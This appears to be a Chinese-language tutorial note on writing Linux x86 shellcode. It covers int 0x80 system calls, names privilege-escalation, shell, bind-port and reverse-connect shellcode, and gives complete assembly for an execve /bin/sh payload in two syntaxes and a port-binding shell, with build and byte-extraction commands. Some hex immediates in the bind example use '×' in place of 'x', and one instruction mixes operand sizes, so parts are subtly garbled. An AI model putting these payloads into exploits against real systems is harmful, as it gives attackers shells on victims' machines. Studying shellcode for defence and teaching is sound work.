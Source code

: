 shellcode开发
========================================

linux下shellcode编写
----------------------------------------

基础
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 中断0×80方式
	::
	
		应用程序调用系统调用的过程是： 
		1.把系统调用的编号存入 EAX；
		2.把函数参数存入其它通用寄存器；
		3.触发 0x80 号中断（int 0x80）。

shellcode
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 分类
	- 本地提权: 获取root权限，通过系统调用setreuid
	- 执行shell ：执行执行/bin/sh ，通过系统调用  execve
	- 开启远程端口：用shellcode在目标计算机上打开一个端口(通讯服务)，并将Shell绑定到该端口，攻击者可以放弃入侵时的用的端口
	- 反向连接shellcode：当目标计算机在防火墙后时，防火墙不允许外边的计算机主动访问目标机器。所以即使采用上边的shellcode建立了服务后门，你还是不能与目标计算机建立连接。反向连接的含义就是，让目标计算机通过特定的IP(攻击者的)和端口反向连接到攻击者，也可以设定为在固定的时间段主动来建立连接。

+ 编写步骤
	- 编写出对应的C程序语言
	- 根据C语言反汇编或者直接编写C语言对应的汇编程序。
	- 调整汇编程序，减小shellcode体积，去掉可能存在的NULL字节。
	- 提取汇编语言对应的16进编码。

+ 示例
	-  /bin/sh shellocde（intel汇编写法)
		::
		
			xor eax,eax          eax=0
			push eax             eax=null
			push 0x68732f2f      压栈 //sh
			push 0x6e69622f      压栈 /bin
			mov ebx,esp          ebx=esp指向/bin/sh
			push eax             eax=null 结束栈null
			push ebx             参数2   ebx指向/bin/sh
			mov ecx,esp          参数3   ecx指向[“/bin/sh”,NULL]
			xor edx,edx          参数4  edx=NULL
			mov al,0xb           参数1  eax=0xb
			int 0x80  
			
			[root@0day linux]# nasm -f elf execve.asm  编写目标文件
			[root@0day linux]# ld -o execve execve.o   链接，生成可执行文件
			[root@0day linux]# objdump -d execve       获取16进制编码，提取shellcode
			
	- /bin/sh shellocde（AT&T汇编写法)
		::
		
			xorl   %eax,%eax
			pushl  %eax
			pushl  $0x68732f2f
			pushl  $0x6e69622f
			movl   %esp, %ebx
			pushl  %eax
			pushl  %ebx
			movl   %esp, %ecx
			xorl   %edx, %edx
			movb   $0xb, %eax
			int    $0x80

			[root@0day linux]# as -f elf execve2.asm     编写目标文件
			[root@0day linux]# ld -o execve2 execve2.o   链接，生成可执行文件
			[root@0day linux]# objdump -d execve2        获取16进制编码，提取shellcode
			
	- 端口绑定
		::
		
			xor    %eax,%eax
			xor    %ebx,%ebx
			xor    %ecx,%ecx
			push   %eax
			push   $0×1
			push   $0×2
			mov    %esp,%ecx
			inc    %bl
			mov    $0×66,%al
			int    $0×80
			mov    %eax,%esi
			push   %edx
			push   $0×8519ff02
			mov    %esp,%ecx
			push   $0×10
			push   %ecx
			push   %esi
			mov    %esp,%ecx
			inc    %bl
			mov    $0×66,%al
			int    $0×80
			push   %edx
			push   %esi
			mov    %esp,%ecx
			mov    $0×4,%bl
			mov    $0×66,%al
			int    $0×80
			push   %edx
			push   %edx
			push   %esi
			mov    %esp,%ecx
			inc    %bl
			mov    $0×66,%al
			int    $0×80
			mov    %eax,%ebx
			xor    %ecx,%ecx
			mov    $0×3f,%al
			int    $0×80
			inc    %ecx
			mov    $0×3f,%al
			int    $0×80
			inc    %ecx
			mov    $0×3f,%al
			int    $0×80
			push   %edx
			push   $0×68732f2f
			push   $0×6e69622f
			mov    %esp,%ebx
			push   %edx
			push   %ebx
			mov    %esp,%ecx
			mov    $0xb,%al
			int    $0×80

			[root@0day linux]# as -f elf bind.asm     编写目标文件
			[root@0day linux]# ld -o bind bind.o      链接，生成可执行文件
			[root@0day linux]# objdump -d bind        获取16进制编码，提取shellcode